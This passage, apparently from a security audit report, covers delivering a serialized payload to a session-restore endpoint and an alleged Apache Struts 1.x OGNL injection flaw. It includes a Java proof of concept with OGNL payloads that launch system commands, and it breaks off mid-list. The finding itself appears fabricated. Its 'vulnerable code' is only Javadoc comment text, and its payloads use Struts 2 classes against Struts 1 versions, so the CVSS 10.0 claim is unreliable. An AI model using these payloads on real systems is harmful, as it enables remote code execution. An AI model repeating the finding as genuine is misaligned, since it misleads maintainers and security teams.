 4. **Deliver Payload**
   ```http
   POST /hibernate-app/session-restore HTTP/1.1
   Content-Type: application/octet-stream
   Content-Length: [payload_length]

   [serialized_payload_data]
   ```

5. **Verify RCE**
   - Calculator opens on Windows
   - Reverse shell on Linux
   - Check process list for executed command

---

## 🎯 **CRITICAL FINDING #2: Apache Struts OGNL Injection RCE**

### **Vulnerability Details**
- **CVE Reference**: Similar to CVE-2017-5638, CVE-2018-11776
- **CVSS Score**: 10.0 (CRITICAL)
- **CWE**: CWE-94 (Code Injection)
- **Affected Versions**: Struts 1.2.9, 1.3.10
- **Files**:
  - `struts-1.2.9/src/share/org/apache/struts/action/ActionServlet.java`
  - `struts-1.3.10/core/src/main/java/org/apache/struts/action/DynaActionForm.java`

### **Vulnerable Code**
```java
// ActionServlet.java - Lines 143, 146
* <li><strong>config/${module}</strong> - Comma-separated list of
*     will use the specified prefix (/${module}). This can be repeated as many

// DynaActionForm.java - Lines 352, 357, 384, 389
*  ${formbean.prop}</pre>
*  ${dynabean.map.prop}</pre>
```

### **PoC Exploit - Struts OGNL RCE**
```java
import java.net.http.*;
import java.net.URI;

public class StrutsOGNLRCE {

    public static void main(String[] args) throws Exception {
        System.out.println("🚨 Apache Struts 1.x OGNL Injection RCE PoC");

        // OGNL payloads for different attack scenarios
        String[] payloads = {
            // Basic RCE - Execute calculator
            "%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].getWriter().println('RCE_SUCCESS')}",

            // Advanced RCE - Command execution
            "%{(#cmd='calc').(#cmds={'cmd.exe','/c',#cmd}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start())}",

            // File system access
            "%{#f=new java.io.File('C:\\\\Windows\\\\system32\\\\calc.exe').(#f.exists())}",

            // Network callback
```